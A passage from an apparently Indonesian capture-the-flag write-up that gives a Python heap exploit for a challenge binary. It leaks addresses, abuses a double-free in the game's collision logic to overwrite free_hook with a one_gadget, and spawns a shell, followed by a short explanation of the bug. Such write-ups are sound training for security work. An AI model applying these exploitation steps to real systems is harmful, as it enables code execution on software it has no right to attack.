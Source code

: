 ```python
print hex(binary_leak)
print hex(heap_leak)
print hex(libc_leak)

# get arbitrary write
for i in range(128):
  for j in range(16):
    kill(i, j)
next()

spawn(0, 0, 'd', 0, 0, 0x30-0xb-8, 'b')
spawn(1, 0, 'd', 0, 0, 0x30-0xb-8, 'b')
spawn(2, 0, 'd', 0, 0, 0x30-0xb-8, 'b')
spawn(3, 0, 'd', 0, 0, 0x30-0xb-8, 'b')
spawn(4, 0, 'd', 0, 0, 0x30-0xb-8, 'b')
kill(1, 0)
spawn(5, 0, 'd', 0, 0, 0x30-0xb-8, 'b'*(0x30-0xb-8-1) + '\x61')
kill(2, 0)
kill(3, 0)

# win
one_gadgets = [0x50186, 0x501e3, 0x103f50]
one_gadget = libc_leak + one_gadgets[2]
free_hook = libc_leak + 0x1e68e8

spawn(6, 0, 'd', 0, 0, 0x60-0xb-8, 'b'*(0x30-0xb-8-1) + p64(0x31) + p64(free_hook-0x10))
spawn(7, 0, 'd', 0, 0, 0x30-0xb-8, 'b')
spawn(8, 0, 'd', 0, 0, 0x30-0xb-8, 'a'*4 + p64(one_gadget)*2)
kill(0, 0)


p.interactive()
p.close()
```

![Error](/assets/images/CJFinal-11.png)

:D

### Catatan tambahan
Terdapat bug double free yang kita bisa salah gunakan di fungsi <span style="color:#00ff00">_next_</span>. Intinya, jika dua makhluk "tabrak", mereka akan di free keduanya. Tidak ada pengecekan jika sebuah makhluk sudah "mati", jadi dengan membunuh suatu makhluk dan kemudian ada makhluk lain yang tabrak dia, makhluk tersebut akan di double free.
